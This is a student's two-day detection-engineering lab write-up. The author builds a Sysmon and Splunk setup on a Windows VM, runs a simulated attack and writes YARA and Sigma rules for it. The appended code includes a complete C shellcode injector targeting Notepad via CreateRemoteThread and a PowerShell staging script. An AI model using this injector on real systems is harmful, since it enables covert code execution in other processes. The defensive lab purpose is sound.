# Roadmap V3 - Documentation 5: Tuesday 23 June 2026 + Wednesday 24 June 2026
## Summary:
I completed a full Detection Engineering project on a span of 2 days, simulating a full attack, and making detections (YARA and Sigma) for it!

## Note:
All codes, detections, ... at the bottom.

## Documentation:
### Day 1: Tuesday 23 June 2026
It has been a while since my last documentation update. In addition to university and other responsibilities, I recently completed HTB ‘s SOC Analyst Job Role Path. I am now redirecting my focus back to hands-on work.

In the previous days, I have been planning a long-term project designed to deepen my practical skills in Detection Engineering. I’ll just name it "Detection Engineering Project 1," this project will evolve continuously over time.

The primary objective of this project is to simulate an attack on a virtual machine, send the generated logs into Splunk, analyze the artifacts, and develop corresponding detection rules and alerts. Then in the future, I’ll be leveling the attack, and the detections up.

For this project, I’ll:
- Create a Windows 11 VM
- Install Sysmon with a known configuration
- Setup Splunk
- Install and setup Splunk Universal Forwarder to send the logs to Splunk
- Generate some logs
- Simulate the Attack by making a simple malware and launch it
- Read the logs generated from the attack on Splunk
- Make some YARA rules to scan the files on disk
- Make some Sigma rules to trigger alerts
- Improve and Repeat

I already made and configured the VM yesterday, so now I’ll install Sysmon!


For Sysmon, I downloaded it from [Microsoft’s Page](https://learn.microsoft.com/en-us/sysinternals/downloads/sysmon), and downloaded SwiftOnSecurity’s configuration file from this [link](https://github.com/SwiftOnSecurity/sysmon-config/blob/master/sysmonconfig-export.xml). Once downloaded, I extracted the Sysmon folder, and put the configuration file inside it. Then, I opened PowerShell as Admin in the same folder’s location and ran “.\sysmon64.exe -i sysmonconfig-export.xml -accepteula”  to install Sysmon and the driver with SwiftOnSecurity’s configurations.




<br>


To check that Sysmon is successfully installed, I checked Event Viewer to see if there are some events created under Applications and Services Logs -> Microsoft -> Windows -> Sysmon -> Operational. And there were indeed some!

Now that step 2 is done, it’s time to set up Splunk. I’m wondering if I should set it on the VM or the host? Thinking about it, I think setting it on the host makes more sense and more realistic since I don’t think Splunk will be installed on every single machine in a work environment, but rather in a centralized machine that collects the logs from every single machine. After researching, I found that my thought was correct! So I’ll do that.


After installing Splunk Enterprise on the host, I went to Settings -> Data Section -> Forwarding and Receiving.

<br><br><br><br>


Under “Receive Data”, I configured Splunk to listen on port 9997.

While researching, I found that a very important thing to do after configuring splunk is to make sure that the host’s firewall can accept inbound traffic on the chosen port.

<br>

Configuring the Firewall was straight forward, I searched for wf.msc on the Windows menu to open the Firewall Console. In “Inbound Rules”, I selected “New Rule” and configured its type to be Port, its protocol to be TCP, and the port 9997. Then for the action I chose “Allow the connection”. And finally, I named the rule “Splunk Inbound Forwarder (Port 9997)” to make it clear.



<br><br><br><br>

With that, I believe that step 3 is done. I need to install the forwarder to be able to test it, so I’ll do that right now!



I installed the Universal Forwarder on my VM and for the Receiver Indexer window, I provided my machine’s private IP with the port 9997. After that, I tested if my set up is working correctly or not by going to Splunk and running this simple search query: “index=* sourcetype=WinEventLog:*” And indeed it returned tons of logs containing the host name as my VM’s name. So that confirmed it.

<br><br>

Now I want to connect the Universal Forwarder to Sysmon to fully complete the setup. To do so, I need to create an “inputs.conf” file in the local folder and add the following configurations:  
\[WinEventLog://Microsoft-Windows-Sysmon/Operational\]  
disabled = false  
renderXml = true  
index = main  
  
Then, I restarted the forwarder by running this command in PowerShell: “Restart-Service SplunkForwarder”.

Now, it’s time to test if Sysmon logs are coming to Splunk or not. I searched for “index=main sourcetype="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"” And nothing appeared, 0 results!! I searched for “index=main “Sysmon”” and I got 11 events that are not from Sysmon itself. So here, it was time to dig into the problem to fix it.

First, I checked if the config file was indeed .conf and not .conf.txt, and indeed it was .conf, so the problem wasn’t here.

Then, since I’m using Splunk, I thought about seeing if there were any errors logged to it, so I used this search: “index=_internal "WinEventLog" OR "Sysmon" log_level=WARN OR log_level=ERROR” And here, I found the problem!

The problem was “Init failed, unable to subscribe to Windows Event Log channel 'Microsoft-Windows-Sysmon/Operational': errorCode=5” the forwarder doesn’t have the permission to read Sysmon event logs. So I need to give it that. After researching on how to do that, I found that I can go to Services, and change the Log On property of SplunkForwarder and set it to “Local System account”, and allow it to interact with desktop.

Then, added this to the configuration file: “sourcetype = XmlWinEventLog:Sysmon” just to make searching a bit easier. After restarting the service, and searched “index=main sourcetype="XmlWinEventLog:Sysmon"” I finally saw results from Sysmon!

With that, step 4 and 5 are done since events are generated automatically while working!

Now, it’s time to simulate the attack! I asked Gemini to give me the C and PS codes. The C executable is basically named “main.exe” and is put in the Downloads folder, and the powershell script is named “attack1.ps1” and put on the Desktop. I disabled Real-time Protection in Windows Defenders since most probably it will catch the attack immediately.

Executing the attack didn’t go as planned! What was happening is that Notepad opens, then a terminal opens for a split of a second and closes immediately. And the calculator wasn’t opening at all! I went to the logs to investigate so I ran this search query: “index=main sourcetype="XmlWinEventLog:Sysmon" "main.exe"” and I found 3 events for each execution (since I executed the attack multiple times). First one is Event ID 11, which indicates that the script successfully located the executable and moved it to the intended location. The second event was Event ID 1, which indicated that main.exe was successfully executed. The third event was Event ID 5, on main.exe and the time difference between Event ID 1 and 5 was exactly 3 milliseconds!

Since the C code already has print statements on fails, I ran the exe manually from the terminal to see what exactly is failing. And it turned out that the executable can’t find Notepad.exe! I noticed in the code that we’re searching for “notepad.exe” and I remembered that back with one of my kernel projects if I’m not mistaken, I ran into a similar problem, and the fix was basically to search for “Notepad.exe” and not “notepad.exe”! So I did that here, and it worked! The attack has happened! Even though the calculator still didn’t open!

Looking at the logs, I found these events:
1. Event ID 11 indicating that main.exe has been moved
2. Event ID 1 indicating that main.exe was opened from PowerShell.
3. Event ID 8 indicating the attack from main.exe to notepad.exe
4. Event ID 5 indicating that main.exe has closed

I researched about why the calculator wasn’t opening, and what I found is that on modern Windows 11, Notepad.exe actually runs as a packaged UWP app inside an isolated AppContainer sandbox. This prevented the spawned process from rendering a UI, causing an unhandled exception that terminated Notepad immediately.

But anyways, catching Event ID 8 is exactly what we need since it indicates an attack attempt that needs to be handled even if the attack didn’t get fully activated!

### Day 2: Wednesday 24 June 2026
Let’s continue! I reran the attack on the VM and did this search on Splunk to get fresh new events to start with: “index=main sourcetype="XmlWinEventLog:Sysmon" "main.exe"” And again, I found these events in order:
1. Event ID 11 indicating that main.exe has been moved
2. Event ID 1 indicating that main.exe was opened from PowerShell.
3. Event ID 8 indicating the attack from main.exe to notepad.exe
4. Event ID 5 indicating that main.exe has closed

I believe now the next step is to make the detections! I’ll start with making YARA rules. I watched this video and gained a solid understanding about Yara.

What I learned from the video and extra research is that Yara is basically a scanning tool. It is used to scan files based on specified parameters! And the parameters are exact, so for example if a string is “malicious” in the detection and “mal” in the malware, Yara won’t detect it (until you add regular expression to the variables)! Another thing is that you can add some keywords to the variables to handle them better, some of the most common ones are wide and ascii. These are used to handle how words are stored in the operating system, since they can be stored as 1-byte encoding (which ascii detects) or 2-byte encoding (which wide detects) so adding both to every variable helps detecting more accurately! Additionally, I learned that Yara doesn't delete detected files, that was an assumption I had before about Yara that it is like Windows Defender, it can quarantine files and delete them but turned out to be false, it just detects the files!

Based on the acquired knowledge I made a detection rule tuned specifically for Attack1. Inside the detection, I targeted every string, the target process, and the used Win32 APIs. the code of the detection can be found at the bottom! And here’s the result of the YARA detection:

<br>




<br>

Now, it’s time to make Sigma rules! I made 3 rules (also can be found at the bottom):
One for dropping executables in the Public folder
One for PowerShell executing executables from the Public folder
One for code injection to Notepad.exe

<br>


<br>

<br>


<br>

With that, I believe that the project is complete!

**Reflection:**  
This project was amazing and I’ve learned tons and tons of new information that I couldn’t get from a standard tutorial! But there is still a thing, I feel that there is something.. missing! I feel that what I did is somewhat disconnected! What’s the work of a detection engineer?

So I spent the time researching about this and learning more about Detection Engineering! And I finally found the connection! As a detection engineer, I’m not the one who’s making the analysis, but rather the one who makes detections to help analysts do their job! I’m the engineer, they are the operators! In the real world, I don’t just write YARA rules and manually run them. Instead, Detection Engineers upload the rules to an EDR like Crowdstrike and it runs the rules automatically on every machine in the background! And regarding Sigma rules, Detection Engineers use Sigma to write a singular detection that can be translated to whatever SIEM language they want! And to make things more powerful, they can use automation to automatically convert these Sigma rules to search queries and save them in the chosen SIEM.

With that new knowledge, I feel much more comfortable with Detection Engineering, and I know exactly what I should focus and improve on. This is not the end of the project, but the end of a single step in it. I’ll keep practicing YARA and Sigma to make more sophisticated detections and get more experienced in the field! The next iteration will be Attack 2!


## Full Code:
### C Executable:
```c
#include <windows.h>
#include <stdio.h>
#include <tlhelp32.h>

// Standard x64 calc.exe shellcode (ExitThread variant to prevent Notepad from crashing completely)
unsigned char payload[] = 
"\xf0\xbf\x93\xbc\x9a\xf6\x72\x51\x48\x83\xec\x28\x50\x51\x52"
"\x53\x56\x57\x55\x41\x50\x41\x51\x41\x52\x41\x53\x41\x54\x41"
"\x55\x41\x56\x41\x57\x48\x89\xe5\x48\x83\xec\x48\x48\x83\xe4"
"\xf0\x48\x31\xc0\x65\x48\x8b\x40\x60\x48\x8b\x40\x18\x48\x8b"
"\x70\x20\x48\x8b\x16\x48\x8b\x42\x30\x48\x8b\x78\x4c\x4c\x31"
"\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x3c\x61\x7c\x02\x2c\x20"
"\x41\x01\xc1\x38\xe0\x75\xed\x4c\x39\xce\x75\xd7\x41\x8b\x4c"
"\x24\x24\x4c\x01\xd1\x44\x8b\x41\x1c\x4d\x01\xd0\x41\x8b\x34"
"\x88\x48\x01\xd6\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1"
"\x38\xe0\x75\xf1\x4c\x3b\x4d\xf8\x75\xdb\x44\x8b\x41\x24\x4d"
"\x01\xd2\x66\x41\x8b\x0c\x4a\x44\x8b\x41\x1c\x4d\x01\xd0\x41"
"\x8b\x04\x88\x48\x01\xd0\x41\x5f\x41\x5e\x41\x5d\x41\x5c\x41"
"\x5b\x41\x5a\x41\x59\x41\x58\x41\x8f\x48\x83\xc4\x28\x48\x89"
"\xec\x48\x83\xec\x48\x5d\x48\x31\xc0\x90\x90\x90\x48\x31\xc9"
"\x48\x31\xd2\x4d\x31\xc0\x4d\x31\xc9\xbb\x63\x61\x6c\x63\x48"
"\xc1\xe3\x20\x48\xc1\xeb\x20\x53\x48\x89\xe1\x48\x31\xd2\x49"
"\x89\xe0\x41\xbb\x5c\x11\xa3\x26\xe8\x33\xff\xff\xff\x48\x31"
"\xc9\x41\xbb\x2a\x3a\xae\x22\xe8\x26\xff\xff\xff";

size_t payload_len = sizeof(payload);

// Helper function to find the Process ID of Notepad
DWORD FindTargetProcess(const wchar_t *processName) {
    DWORD processId = 0;
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (hSnapshot != INVALID_HANDLE_VALUE) {
        PROCESSENTRY32W processEntry;
        processEntry.dwSize = sizeof(processEntry);
        if (Process32FirstW(hSnapshot, &processEntry)) {
            do {
                if (wcscmp(processEntry.szExeFile, processName) == 0) {
                    processId = processEntry.th32ProcessID;
                    break;
                }
            } while (Process32NextW(hSnapshot, &processEntry));
        }
        CloseHandle(hSnapshot);
    }
    return processId;
}

int main() {
    printf("[+] Searching for target process (notepad.exe)...\n");
    DWORD pid = FindTargetProcess(L"Notepad.exe");
    
    if (pid == 0) {
        printf("[-] Could not find notepad.exe running.\n");
        return 1;
    }
    printf("[+] Found target process! PID: %d\n", pid);

    // 1. OpenProcess
    HANDLE hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pid);
    if (hProcess == NULL) {
        printf("[-] OpenProcess failed. Error: %d\n", GetLastError());
        return 1;
    }
    printf("[+] Opened handle to target process.\n");

    // 2. VirtualAllocEx
    LPVOID rMemory = VirtualAllocEx(hProcess, NULL, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if (rMemory == NULL) {
        printf("[-] VirtualAllocEx failed. Error: %d\n", GetLastError());
        CloseHandle(hProcess);
        return 1;
    }
    printf("[+] Allocated %zu bytes inside target process memory space.\n", payload_len);

    // 3. WriteProcessMemory
    SIZE_T bytesWritten;
    if (!WriteProcessMemory(hProcess, rMemory, payload, payload_len, &bytesWritten)) {
        printf("[-] WriteProcessMemory failed. Error: %d\n", GetLastError());
        CloseHandle(hProcess);
        return 1;
    }
    printf("[+] Successfully wrote payload to target memory space.\n");

    // 4. CreateRemoteThread
    HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)rMemory, NULL, 0, NULL);
    if (hThread == NULL) {
        printf("[-] CreateRemoteThread failed. Error: %d\n", GetLastError());
        CloseHandle(hProcess);
        return 1;
    }
    printf("[+] Remote thread created! Injection successful.\n");

    CloseHandle(hThread);
    CloseHandle(hProcess);
    return 0;
}
```

### PowerShell Script:
```ps1
# 1. Reconnaissance phase
Write-Host "[*] Executing initial recon..."
whoami

# 2. Staging phase (Move the compiled injector to a common staging path)
$SourcePath = "$env:USERPROFILE\Downloads\main.exe"
$StagingPath = "C:\Users\Public\main.exe"

if (Test-Path $SourcePath) {
    Write-Host "[*] Staging malware executable to $StagingPath..."
    Copy-Item -Path $SourcePath -Destination $StagingPath -Force
} else {
    Write-Host "[-] Source executable not found in Downloads. Double check the file name."
    Exit
}

# 3. Delivery / Execution Phase
Write-Host "[*] Launching sacrificial process (notepad)..."
Start-Process -FilePath "notepad.exe"
Start-Sleep -Seconds 2 # Give notepad a brief moment to fully initialize in memory

Write-Host "[*] Launching process injector..."
Start-Process -FilePath $StagingPath -Wait

Write-Host "[+] Attack chain execution complete!"
```

### YARA Detection:
```yar
rule detection1_for_attack1 {
	strings:
		// All Strings Used:
		$s1 = "[+] Searching for target process (notepad.exe)..." ascii wide
		$s2 = "[-] Could not find notepad.exe running." ascii wide
		$s3 = "[+] Found target process! PID: %d\n" ascii wide
		$s4 = "[-] OpenProcess failed. Error: %d\n" ascii wide
		$s5 = "[+] Opened handle to target process.\n" ascii wide
		$s6 = "[-] VirtualAllocEx failed. Error: %d\n" ascii wide
		$s7 = "[+] Allocated %zu bytes inside target process memory space.\n" ascii wide
		$s8 = "[-] WriteProcessMemory failed. Error: %d\n" ascii wide
		$s9 = "[+] Successfully wrote payload to target memory space.\n" ascii wide
		$s10 = "[-] CreateRemoteThread failed. Error: %d\n" ascii wide
		$s11 = "[+] Remote thread created! Injection successful.\n" ascii wide

		// Process Targeted
		$p1 = "Notepad.exe" ascii wide

		// Win32 APIs Used:
		$w1 = "FindTargetProcess" ascii wide
		$w2 = "OpenProcess" ascii wide
		$w3 = "VirtualAllocEx" ascii wide
		$w4 = "WriteProcessMemory" ascii wide
		$w5 = "CreateRemoteThread" ascii wide

	condition:
        // File must be an executable, contain at least 4 of the strings, and at least 3 of the APIs
        uint16(0) == 0x5a4d and (4 of ($s*)) and (3 of ($w*))
}
```

### Sigma Rule 1:
```yml
title: Dropping EXEs into Public Folder
description: Detects an executable file being dropped into the C:\Users\Public folder
logsource:
  product: windows
  service: sysmon
detection:
  selection:
    EventID: 11
    TargetFilename|contains: 'C:\Users\Public\'
    TargetFilename|endswith: '.exe'
    condition: selection
level: medium

```

### Sigma Rule 2:
```yml
title: Process Execution From Public Folder Via PowerShell
description: Detects an executable running out of the Public folder where the parent process is PowerShell.
logsource:
    product: windows
    service: sysmon
detection:
    selection:
        EventID: 1
        ParentImage|endswith: '\powershell.exe'
        Image|contains: 'C:\Users\Public\'
        Image|endswith: '.exe'
    condition: selection
level: high
```

### Sigma Rule 3:
```yml
title: Process Injection Into Notepad Via CreateRemoteThread
description: Detects a non-typical source process injecting code into notepad.exe using CreateRemoteThread.
logsource:
    product: windows
    service: sysmon
detection:
    selection:
        EventID: 8
        TargetImage|endswith: '\Notepad.exe'
    filter:
        SourceImage|endswith: '\explorer.exe'
    condition: selection and not filter
level: critical
```